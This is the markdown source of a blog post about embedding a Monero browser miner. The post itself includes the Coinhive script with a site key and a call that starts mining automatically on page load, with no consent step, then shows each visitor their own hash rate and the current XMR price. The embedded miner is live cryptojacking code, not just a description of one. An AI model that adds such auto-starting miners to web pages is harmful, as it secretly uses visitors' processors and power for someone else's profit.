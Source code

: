 ```yaml
---
layout: post
title: Mining crypto using your web browser?
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How can it be configured? What purpose does it serve?

## How does this work?

<script>
	var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y');
	miner.start();

	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond();
		var totalHashes = miner.getTotalHashes();
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
		document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
		document.getElementById("totalHashes").innerHTML = totalHashes;
		document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
	}, 1000);

	// API call to Crypto Compare
	window.onload = function(){
		var xhttp = new XMLHttpRequest();
		xhttp.onreadystatechange = function() {
			if (this.readyState == 4 && this.status == 200) {
			var json = JSON.parse(this.responseText);
				document.getElementById("XMRprice").innerHTML = json.USD;
		   }
		};
		xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
		xhttp.send(); 
	}
</script>
The current price of Monero based on data retrieved from the CryptoCompare API is <p id="XMRprice"></p>

<br />
<br />
### Miner Stats since visiting this page
<div>
Hashes per second: <p id="hashesPerSecond"></p>
Total Hashes: <p id="totalHashes"></p>
Accepted Hashes: <p id="acceptedHashes"></p>
<br />
</div> 